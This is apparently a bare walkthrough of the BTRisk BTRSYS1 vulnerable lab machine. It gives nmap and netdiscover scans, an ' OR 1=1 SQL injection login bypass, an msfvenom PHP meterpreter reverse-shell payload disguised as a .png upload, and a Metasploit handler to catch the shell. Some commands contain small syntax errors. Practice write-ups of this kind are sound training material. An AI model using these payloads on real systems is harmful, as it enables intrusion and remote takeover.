


# BTRisk BTRSYS1 Walkthrough


```
netdiscover -r 192.168.56.0\24
nmap -sV -O 192.168.56.103
```





> DENEME@btrisk.com:DENEME


> ‘ OR 1=1– @btrisk.com:DENEME





```
msfvenom -p php/meterpreter/reverse_tcp LHOST:192.168.56.102 LPORT:4545 -o shell.php.png
```


```
use exploit/multi/handler
set payload php/meterpreter/reverse_tcp
set LHOST 192.168.56.102
setLPORT 4545
exploit
```


